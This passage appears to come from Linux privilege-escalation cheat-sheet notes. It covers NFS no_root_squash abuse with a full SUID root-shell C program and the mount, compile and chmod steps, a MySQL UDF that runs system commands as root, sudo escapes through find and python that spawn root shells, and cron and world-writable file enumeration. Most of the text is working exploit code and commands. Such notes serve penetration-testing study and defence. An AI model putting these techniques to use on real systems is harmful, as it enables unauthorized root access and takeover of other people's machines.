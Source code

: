 ![](https://i.imgur.com/9RROKav.png)
- suid-shell.c
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
* Attack machine
```
$ showmount -e ip
$ mount ip:/ /tmp/
$ gcc suid-shell.c -o /tmp/suid-shell
$ chmod +s /tmp/suid-shell
```
- Victim machine
```
$ cd /tmp
$ ./suid-shell
```
https://touhidshaikh.com/blog/?p=788
#### Services running as root
```
$ netstat -antup
```
![](https://i.imgur.com/80mxh1t.png)
```
mysql> create function do_system returns integer soname'raptor_udf2.so';
mysql> select do_system('id > /tmp/out; chown smeagol.smeagol /tmp/out');
```
![](https://i.imgur.com/phgKwFH.png)
#### Misconfigured sudo permissions
![](https://i.imgur.com/ey7ZoyZ.png)

That shows we can running find, cat, python as sudo.
- find
```
$ sudo find /home -exec sh -i \; 
```
- python
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash");'
```
#### Misconfigured cron permissions
```
$ ls -la /etc/cron.d
```
![](https://i.imgur.com/6Ul3oYA.png)
```
$ find / -perm -2 -type f 2>/dev/null
```
![](https://i.imgur.com/1BnB1Dk.png)
